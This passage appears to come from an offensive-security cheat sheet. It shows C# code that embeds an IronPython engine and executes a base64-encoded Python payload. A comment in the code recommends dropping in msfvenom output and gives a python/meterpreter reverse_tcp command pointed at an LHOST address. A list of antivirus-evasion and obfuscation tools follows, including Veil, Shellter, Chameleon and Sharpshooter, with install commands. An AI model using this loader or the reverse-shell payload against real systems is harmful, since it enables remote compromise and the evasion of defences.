 ~~~

            // Print the default search paths
            // You may need to manually add these paths to include the DLLs necessary for execution
            System.Console.Out.WriteLine("Search paths:");
            ICollection<string> searchPaths = pythonEngine.GetSearchPaths();
            foreach (string path in searchPaths)
            {
                System.Console.Out.WriteLine(path);
            }
            System.Console.Out.WriteLine();

            // Now modify the search paths to include the directory
            // where the standard library has been installed
            searchPaths.Add(@"..\..\Lib");
            searchPaths.Add(@"..\Lib");
            searchPaths.Add(@".\Lib");
            pythonEngine.SetSearchPaths(searchPaths);

            // Execute the malicious Python coce
            // Replace the payload below with your own, possibly the output of msfvenom
            // msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.75.1
            Microsoft.Scripting.Hosting.ScriptSource pythonScript = pythonEngine.CreateScriptSourceFromString("exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('cAByAGkAbgB0ACgAJwByAGUAcABsAGEAYwBlACAAdABoAGkAcwAgAHAAcgBpAG4AdAAgAHMAdABhAHQAZQBtAGUAbgB0ACAAdwBpAHQAaAAgAHQAaABlACAAbQBzAGYAdgBlAG4AbwBtACAAcAB5AHQAaABvAG4AIABwAGEAeQBsAG8AYQBkACcAKQA=')[0]))");
            pythonScript.Execute();
        }
    }
}
~~~

## Tools     
### Chamelon    
[Chameleon](https://github.com/klezVirus/chameleon): Powershell script obfuscator  

### Veil Framework:

Install on Kali

    apt install veil
    /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

### Shellter

Source: https://www.shellterproject.com/download/

    apt install shellter


### Sharpshooter
